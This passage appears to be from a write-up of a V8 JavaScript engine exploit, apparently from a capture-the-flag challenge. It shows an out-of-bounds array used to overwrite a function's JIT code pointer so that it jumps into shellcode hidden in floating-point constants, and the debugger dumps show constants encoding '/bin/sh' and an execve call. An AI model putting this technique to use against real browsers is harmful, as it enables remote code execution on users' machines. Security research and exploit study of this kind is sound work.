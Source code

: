 We can see the address of code above. From there through `OobDblArr2[0]`, we access `codeAddr + 0x10` to get Maglev address.

```bash
pwndbg> x/20wx 0x344b001a0921-1
0x344b001a0920:	0x00000d91	0x001a0889	0x00000f61	0x606cda31
0x344b001a0930:	(0x606cda40	0x00005557)	0x000000ac	0x000002e8
0x344b001a0940:	0x00000028	0x00000000	0xffffffff	0x00000028
0x344b001a0950:	0x00000028	0x00000028	0x0000ffff	0x000009a1
0x344b001a0960:	0x0000b270	0x00000000	0xc84003ff	0x0018e705
```

We can see at `codeAddr + 0x10`, 0x5557606cda40 is the address of maglev code

```js
  write(codeAddr + 0x8, maglevAddr[0] + 0x80 + 2, maglevAddr[1], dblOffset);
  func();
```

Next, we write the 64-bit maglev address (it is address of glibc heap) to `codeAddr + 0x10` which is the address of JIT compiled code for our `func`. We do `maglevAddr[0] + 0x80` because that is where our `func` code containing floating point encoded shellcode resides.

```bash
pwndbg> x/100i 0x5557606cda40
0x5557606cda40:	mov    ebx,DWORD PTR [rcx-0xc]
0x5557606cda43:	add    rbx,r14
0x5557606cda46:	test   DWORD PTR [rbx+0x17],0x20000000
0x5557606cda4d:	jne    0x5557006dff40 <Builtins_CompileLazyDeoptimizedCode>
0x5557606cda53:	movabs r9,0x344b0019c3a9
0x5557606cda5d:	movzx  ecx,WORD PTR [r9+0xd]
0x5557606cda62:	test   cl,0x2e
0x5557606cda65:	jne    0x5557606cdb95
0x5557606cda6b:	push   rbp
0x5557606cda6c:	mov    rbp,rsp
0x5557606cda6f:	push   rsi
...
...
0x5557606cdac0:	movabs r10,0xceb580068732f68
0x5557606cdaca:	vmovq  xmm0,r10
0x5557606cdacf:	vmovsd QWORD PTR [rdi+0x7],xmm0
0x5557606cdad4:	movabs r10,0xceb5a6e69622f68
0x5557606cdade:	vmovq  xmm0,r10
0x5557606cdae3:	vmovsd QWORD PTR [rdi+0xf],xmm0
0x5557606cdae8:	movabs r10,0xcebf63120e0c148
0x5557606cdaf2:	vmovq  xmm0,r10
0x5557606cdaf7:	vmovsd QWORD PTR [rdi+0x17],xmm0
0x5557606cdafc:	movabs r10,0xceb50d231d00148
0x5557606cdb06:	vmovq  xmm0,r10
0x5557606cdb0b:	vmovsd QWORD PTR [rdi+0x1f],xmm0
0x5557606cdb10:	movabs r10,0x50f583b6ae78948
0x5557606cdb1a:	vmovq  xmm0,r10
0x5557606cdb1f:	vmovsd QWORD PTR [rdi+0x27],xmm0
0x5557606cdb24:	lea    rcx,[rdi+0x30]
```
